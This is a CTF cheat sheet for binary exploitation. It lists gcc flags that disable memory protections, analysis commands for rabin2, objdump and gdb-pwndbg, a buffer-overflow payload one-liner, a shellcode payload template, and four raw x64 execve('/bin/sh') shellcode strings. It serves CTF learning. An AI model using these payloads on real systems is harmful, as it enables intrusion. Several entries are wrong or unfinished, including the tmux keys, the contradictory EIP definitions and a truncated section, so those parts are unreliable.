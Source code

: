 # CTF Tools

## Binary Exploitation

### GCC flags
- `-fno-stack-protector` -> disable canary
- `-no-pie` -> no PIE
- `-m32` -> compiles in 32 bit (i386)
- `-z execstack` -> disable NX and stack is executable now

A nice way to use this is 
```bash
gcc file.c -o vuln -fno-stack-protector -z execstack -no-pie -m32
```

### tmux
- `tmux`
- `ctrl + %, v` -> vertical split
- `ctrl + %, <-/->` -> change to left of right screen

### Know your file
`checksec --file <filename>` or `checksec file=filename

`file <filename>`

`rabin2 -I <filename>`

### Tracing
Checks what the program's doing with the input
`ltrace` and `strace`(for remote servers)
`ltrace ./filename`

### Reading the functions inside
- `info functions`
- `rabin2 -i <filename>`
- `objdump -d ./chal | grep '<.*>:'`
- `objdump -D <filename> | grep <funcitonname>`
- `nm -u <filename>`

USER GENERATED FUNCTIONS:

```bash
rabin2 -qs <filename> | grep -ve imp -e ' 0 '
```

### Strings inside binary
```bash
rabin2 -z <filename>
```

### gdb-pwndbg
(much faster than loading ghidra and doing stuff from there)
- `file <filename>` -> to open the file
- `info functions` -> show all the function names along with their addresses. (you can use this with `objdump -D <filename> | grep <funcitonname>`, which is much better)
- `disassemble main` -> disassemble the main funciton
- `disassemble <functionname>` -> disassemble particular functions

- `cyclic <number>` -> useful for testing when the seg faults
- `r` -> runs the function
- `cyclic -l <EIP-data>` -> lookup the amount of the data that can be inputted where overflow won't occur in little endian
- `python2 -c 'print "A"*28 + "\x82\x91\x04\x08"' > payload` -> 28 is the eip data and then the other code.
- `./ret2win < payload` -> input payload into the file
- instead, you can just send using `run < payload` inside of gdb-pwndbg
- `break *addr` -> add a breakpoint at an addr
- `delete breakpoints` -> delete breakpoints

**IP/EIP/RIP** -> Data where you can go without seg fault (data that can be stored in the variable/line)
**IP/EIP/RIP** -> Stores the address of the next function that must be executed (overflow this)

### python2 (not python3)
```python
python2 -c 'code here'
```

### redare
`r2 filename`
`aa` -> analyze all flags
`afl` -> all functions list

### Overwriting Variables on the Stack
- Replace the

### Shellcodes (NX disabled)
usage:
```python
payload = shellcode + b"A" * (80 - len(shellcode)) + b"B"*8 + p64(int(buff_addr, 16))
```
8 bytes for skipping RBP
`x64` linux `23` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

`x64` linux `24` bytes:
```elixir
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```

`x86_64` linux `22` bytes:
```elixir
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

`x86_64` linux `27` bytes:
```elixir
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```


### NX enabled
Try using ropper since it might be an ROP attack


### Calling Conventions (Linux)
- 64-bit: `RDI, RSI, RDX, RCX, R8, R9, Stack`
- 32-bit: Stack

